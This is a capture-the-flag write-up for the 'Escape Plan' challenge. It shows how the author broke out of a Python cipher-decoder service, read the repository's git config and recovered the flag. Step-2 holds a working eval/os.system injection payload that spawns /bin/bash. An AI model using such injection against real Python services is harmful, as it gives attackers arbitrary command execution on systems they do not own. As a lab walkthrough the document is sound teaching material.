

## Escape Plan
The main idea finding the flag is just spawning into a sandbox.

#### Step-1:
When we run `nc chall.csivit.com 30419`, we are greeted with,

```bash
Welcome to cipher decoder, an open-source script in python!

EXAMPLES:
    shift_cipher_key('hello', 25)
    shift_cipher_bruteforce('hello')
    encrypt_vigenere('TEXT', 'KEY')
    decrypt_vigenere('DIVD', 'KEY')

Currently supported ciphers:
    shift_cipher_key(text, shift)
    shift_cipher_bruteforce(text)
    encrypt_vigenere(plaintext, key)
    decrypt_vigenere(ciphertext, key)

To exit:
    exit()

I am constantly trying to make this cipher decoder better and more secure! Help me add support to more ciphers by submitting a PR!
Hope it helps you!
```

#### Step-2:
So to escape, I tried `eval('__import__("os").system("/bin/bash")')` and I was in.

Once in I directly checked, `ls -al`, and I got this:

```bash
total 20
drwxr-x--- 1 root ctf  4096 Jul 22 06:35 .
drwxr-xr-x 1 root root 4096 Jul 26 16:58 ..
drwxr-x--- 1 root ctf  4096 Jul 22 06:27 .git
-rwxr-x--- 1 root ctf  2654 Jul 22 06:27 crypto.py
-rwxr-x--- 1 root ctf    52 Jul 22 06:27 start.sh
```

#### Step-3:
I checked other files, but I will stick to procedure here. Since the description involved a PR, I checked `.git` first by `cd .git`. I got usual files:

```bash
COMMIT_EDITMSG
HEAD
config
description
hooks
index
info
logs
objects
packed-refs
refs
```
At this point, I generally check `logs` to get an overview over the changes in the repo, but here the permission was denied.

#### Step-4:
So, I checked config files by `cat config` and I got this:

```bash
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
[remote "origin"]
	url = https://github.com/alias-rahil/crypto-cli
	fetch = +refs/heads/*:refs/remotes/origin/*
[branch "master"]
	remote = origin
	merge = refs/heads/master
```
#### Step-4:
Now, I got a URL and checked at the given head and got the flag.



#### Step-5:
Finally the flag becomes:
`csictf{2077m4y32_h45_35c4p3d}`
